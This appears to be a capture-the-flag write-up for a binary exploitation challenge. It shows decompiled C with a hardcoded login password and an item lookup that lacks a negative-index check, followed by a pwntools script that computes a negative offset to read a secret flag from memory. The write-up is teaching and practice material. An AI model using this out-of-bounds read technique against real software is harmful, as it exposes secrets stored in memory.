


# Hack The Binary 1

<div class="hidden">
  keywords: PwC CTF: Hack A Day 2023 - Securing AI, pwn, oob
</div>

## TL;DR

Array OOB read

## Initial Analysis

When we try to run the binary file, we are first prompted to enter a 4-digit
password. Looking at the decompilation output, the password is hardcoded in
`password_checker()` function, i.e., `1235`



```c
__int64 __fastcall password_checker(int password) {
  __int64 result; // rax

  if ( password == 1235 ) {
    puts("Login Successfully\n");
    result = 1LL;
  }
  else {
    if ( password <= 999 || password > 9999 )
      puts("Please Enter 4 digit numbers!\n");
    else
      puts("Invalid password!\n");
    result = 0LL;
  }
  return result;
}
```



Next, we could see that inside `management_system()` function, we could see
that we are allowed to query an item whose ID is less than or equal to 14.
However, notice that there is no check for negative item ID and the variable
data type is a **signed** integer.

```c
void __fastcall management_system() {
  int input; // [rsp+4h] [rbp-Ch]
  unsigned int j; // [rsp+8h] [rbp-8h]
  unsigned int i; // [rsp+Ch] [rbp-4h]

  while ( 1 ) {
    while ( 1 ) {
      while ( 1 ) {
        while ( 1 ) {
          puts("--- Welcome to the Management System ---");
          puts("1. User List ");
          puts("2. Item List ");
          puts("3. Search for Item Storage ");
          puts("4. Exit");
          printf("Enter your choice: ");
          __isoc99_scanf("%d", &input);
          if ( input != 1 )
            break;
          for ( i = 0; (int)i <= 17; ++i )
            printf("UserID - %d  %s\n", i, userlist[i]);
          putchar('\n');
        }
        if ( input != 2 )
          break;
        for ( j = 0; (int)j <= 14; ++j )
          printf("ItemID - %d  %s\n", j, item[2 * (int)j]);
        putchar('\n');
      }
      if ( input != 3 )
        break;
      printf("Please Enter item ID: ");
      __isoc99_scanf("%d", &input);
      if ( input <= 14 )
        printf("\nStorage of %s: %s\n\n", item[2 * input], off_4888[2 * input]);
      else
        puts("Invalid item ID!\n");
    }
    if ( input == 4 )
      break;
    puts("Invalid Input!");
  }
}
```

This means that we could provide a negative item ID, e.g., `-4`, and it would access
memory address lower than `item` and return the value there. Looking at interesting
things that we could read with negative item ID, we could see that there is a
variable named secret which contains the flag.


## Solution

Now that we know we could read the flag by providing a negative item ID, the next
step is to calculate the exact value to properly access the flag. To do this, we
could simply subtract the distance between `item` and `secret` and then divides
the value by 16.

```python
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

elf = context.binary = ELF("./vuln", checksec=False)


def start(argv=[], *a, **kw):
    nc = "nc localhost 1337"
    nc = nc.split()
    host = args.HOST or nc[1]
    port = int(args.PORT or nc[2])
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([elf.path] + argv, env=env, *a, **kw)


env = {}
io = start()

item = elf.sym["item"]
secret = elf.sym["secret"]
delta = (item - secret) // 16
log.info(f"{delta=:#x}")

io.sendlineafter(b"numbers): ", b"1235")
io.sendlineafter(b"choice: ", b"3")
io.sendlineafter(b"ID: ", str(delta * -1).encode())
io.recvuntil(b"Storage of ")

io.interactive()
```
